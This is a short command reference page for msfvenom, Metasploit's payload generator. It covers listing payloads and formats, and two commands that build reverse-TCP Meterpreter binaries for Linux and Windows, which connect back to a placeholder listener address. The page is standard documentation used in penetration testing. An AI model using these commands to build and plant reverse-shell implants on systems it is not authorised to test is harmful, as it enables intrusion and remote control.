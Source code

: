 # msfvenom

> Manually generate payloads for metasploit.
> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- List Payloads:

`msfvenom -l payloads`

- List formats:

`msfvenom -l formats`

- Show payload options:

`msfvenom -p {{payload}} --list-options`

- Create an elf binary with a reverse tcp handler:

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f elf > path/to/binary`

- Create an exe with a reverse tcp handler:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe > path/to/binary.exe`
